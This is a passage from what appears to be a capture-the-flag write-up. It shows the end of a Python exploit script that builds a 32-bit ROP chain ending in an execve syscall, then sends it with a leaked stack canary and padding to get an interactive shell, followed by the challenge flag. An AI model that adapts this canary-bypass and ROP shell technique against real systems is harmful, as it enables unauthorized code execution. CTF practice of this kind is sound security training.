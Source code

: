 ```python
rop.raw(0x68732f)
rop.raw(MOV_DWORD_PTR_EAX_EDX)
# arg 2 and 1
rop.raw(POP_ECX_EBX)
rop.raw(0x0)
rop.raw(0x80e9000)
# arg 3
rop.raw(POP_EDX)
rop.raw(0x0)
# int 0x80
rop.raw(POP_EAX)
rop.raw(0xb)
rop.raw(INT_0x80)

input_size = bytes([len(padding + canary + b'A' * 12 + rop.chain())])

send(input_size + padding + canary + b'A' * 12 + rop.chain())
interactive()
```

## Flag

Flag: `It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
